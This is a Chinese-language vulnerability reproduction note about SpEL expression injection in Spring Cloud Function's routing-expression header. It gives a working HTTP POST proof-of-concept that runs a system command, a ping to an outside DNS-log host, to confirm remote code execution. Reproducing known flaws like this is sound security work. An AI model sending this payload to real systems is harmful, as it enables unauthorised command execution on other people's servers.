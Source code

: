 # 

# Spring Cloud Function SPEL 远程命令执行漏洞

## 漏洞描述

Spring Cloud Function 是基于Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于Spring Cloud Function中RoutingFunction类的apply方法将请求头中的“spring.cloud.function.routing-expression”参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。

## 漏洞影响

```
Spring Cloud Function
```

## 环境搭建

- https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo

## 漏洞复现

搭建后访问

![image-20220519160206177](./images/202205191602220.png)

发送POC

```
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

接收到请求

![image-20220519160240168](./images/202205191602216.png)

